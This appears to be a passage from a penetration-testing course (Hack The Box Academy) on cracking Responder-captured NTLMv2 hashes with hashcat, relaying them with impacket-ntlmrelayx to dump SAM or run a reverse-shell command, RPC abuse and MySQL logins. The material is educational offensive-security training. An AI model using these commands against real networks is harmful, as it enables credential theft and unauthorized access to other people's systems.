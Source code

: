 These captured credentials can be cracked using [hashcat](https://hashcat.net/hashcat/) or relayed to a remote host to complete the authentication and impersonate the user.

All saved Hashes are located in Responder's logs directory (`/usr/share/responder/logs/`). We can copy the hash to a file and attempt to crack it using the hashcat module 5600.

```shell
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

If we cannot crack the hash, we can potentially relay the captured hash to another machine using [impacket-ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) or Responder [MultiRelay.py](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py). Let us see an example using `impacket-ntlmrelayx`.

First, we need to set SMB to `OFF` in our responder configuration file (`/etc/responder/Responder.conf`).

```shell
cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```

Then we execute `impacket-ntlmrelayx` with the option `--no-http-server`, `-smb2support`, and the target machine with the option `-t`. By default, `impacket-ntlmrelayx` will dump the SAM database, but we can execute commands by adding the option `-c`.

```shell
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```

Reverse shell
```shell
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'reverseshell code here'
```

##### RPC

In the [Footprinting module](https://academy.hackthebox.com/course/preview/footprinting), we discuss how to enumerate a machine using RPC. Apart from enumeration, we can use RPC to make changes to the system, such as:

- Change a user's password.
- Create a new domain user.
- Create a new shared folder.

## SQL Databases

By default, MSSQL uses ports TCP/1433 and UDP/1434, and MySQL uses TCP/3306. However, when MSSQL operates in a "hidden" mode, it uses the TCP/2433 
### MySQL

```shell
mysql -u julio -pPassword123 -h 10.129.20.13
```

### SQL Server
